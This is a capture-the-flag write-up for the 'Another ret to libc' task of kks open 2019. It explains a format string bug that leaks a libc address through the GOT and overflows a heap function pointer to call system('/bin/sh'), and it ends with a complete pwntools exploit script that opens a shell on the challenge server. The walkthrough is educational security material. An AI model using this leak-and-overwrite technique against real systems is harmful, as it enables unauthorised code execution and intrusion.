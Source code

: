 ### writeup for task "Another ret to libc" of "kks open 2019"

At the beginning, create_user is called. It asks for name and age and then
creates the following data structure on the heap:

* 256 bytes for user name  
* 4 bytes for age  
* 8 bytes for id  
* 4 unused bytes  
* function pointer to change_user_name (4 bytes)  
* function pointer to print_user_info (4 bytes)

create_user returns a pointer to this structure and from now on the main
function only calls change_user_name and print_user_info by the two function
pointers at the heap, so if we gain write access to them, we will be able to
controll eip.

change_user_name gets the pointer to the previously mentioned heap chunk,
reads 256 bytes from stdin and stores them temporarily on the stack. Then
sprintf is called to copy the input string from the buffer on the stack to the
user name segment of the data structure on the heap. But the buffer on the
stack, which we control, is used as the format parameter. This means, we've
got a format string vulnerabilty here.

print_user_info gets a pointer to the structure on heap, but does nothing
really important for the exploit but printing the user name.

First we have to check where our input string lies on the stack. We call
change_user_name and enter something like this: AAAA%x%x%x%x%x%x%x%x  Then we
call print_user_info and see, what sprintf wrote to the heap. It should look
similiar to this:
AAAA4141414178257825782578257825782578257825f7f3000af7dd75bb1 As you can see
the first "%x" returned 41414141, which is the ascii value for AAAA.
Apparently the input buffer is located at the very top of the stack, so the
internal stack pointer of the format function directly points to our format
string.

Now we can leak memory by typing the address followed by "%s", because the format function then returns the string that is located at the specified address, as you can see in my exploit script at the end of this writeup. We use that to leak the GOT entry of setbuf, which is called initially by main, to get the position of libc. After that we calculate the address of the system function in libc. You can find the correct offsets by using readelf: "readelf -s /path/to/correct/libc/version | grep setbuf" and "readelf -s /path/to/correct/libc/version | grep system"

A previously mentioned, we can control eip by overwriting the function
pointers on the heap. To do this, we again use the format string
vulnerability, but this time to cause a buffer overflow. Let's see how the
user name looks, if we input "%0256x", print_user_info will print something
like this:
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000035323025.
So "%0272" would overwrite the whole data structure beneath the function
pointers. Now we can change the two function pointers by simply appending the
wanted addresses to "%0272".

Our goal is to call the libc function system with the argument "/bin/sh" to
get a shell. print_user_info gets a pointer to the data structure on the heap
and thus also a pointer to the user name string. So we can simply change the
pointer to print_user_info to a pointer to the system function, then change
the user name to "/bin/sh" and then call print_user_info. This way, the main
function stores a pointer to our "/bin/sh"-user-name as an argument on the
stack and then wants to call print_user_info with a pointer, which now points
to system.

That's how we get a shell. The flag is at
/home/ctf/task/TOTALY_NOTHING_INTERESTING_HERE.txt

exploit code:  
```  
from pwn import *

def leakByte(address):

   p.sendline('2')  
   p.sendline(struct.pack("I", address) + "%s")    # changing the user name to
<address> + "%s"  
  
   p.sendline('random')  
   p.recvuntil("Quit", drop=True)  # deal with the menu

   p.sendline('1')  # calling print_user_info to read the string at <address>  
   p.recvline(timeout=5)  
   p.recvline(timeout=5)  
   name = p.recvline(timeout=5)[10]  # the first 10 bytes of the returned
string are "name: " followed by the four bytes of <address>, which we
obviously don't want to read.

   p.recvline(timeout=5)  
   p.recvline(timeout=5)  
   p.sendline("random")  
   p.recvuntil("Quit", drop=True) # deal with the menu

   if (len(name) == 0):       # if the byte at <address> is a null byte, the
length of the string  
       return 0               # is zero, which means leakByte has to return 0.  
   else:  
       name += "dummy"        # unpack needs an input string with at least 4 bytes length)  
       return struct.unpack("I",name[0:4])[0] % 256      # if the byte at address is no null byte, leakByte has to return the leaked Byte.

def leakInt(address):  
   return leakByte(address) + leakByte(address+1) * 0x100 +
leakByte(address+2) * 0x10000 + leakByte(address+3) * 0x1000000

p=remote("tasks.open.kksctf.ru", 10001)    # open conntection to
tasks.open.kksctf.ru at port 1001

print("starting script")

p.sendline("ABCD")       # random name  
p.sendline('4')       # random age

p.sendline("R")  
p.recvuntil("Quit", drop=True)       # deal with the menu

setbuf = leakInt(0x0804a00c)       # leak GOT entry of setbuf  
system = setbuf-0x32f00      # calculate address of system

print("setbuf: " + hex(setbuf))  
print("system: " + hex(system))

p.sendline("2")  
p.sendline("%0272x" + struct.pack("I", 0x08048791) + struct.pack("I", system))
# Change the function pointer to print_user_name to the address of system. The
pointer to change_user_name reamains the same

p.sendline("R")  
p.recvuntil("Quit", drop=True)      # deal with the menu

p.sendline("2")  
p.sendline("/bin/sh")       # change user name to /bin/sh

p.sendline("R")  
p.recvuntil("Quit", drop=True)       # deal with the menu

p.sendline("1")        # call print_user_function to get a shell

p.interactive()          # let the user interact with the shell.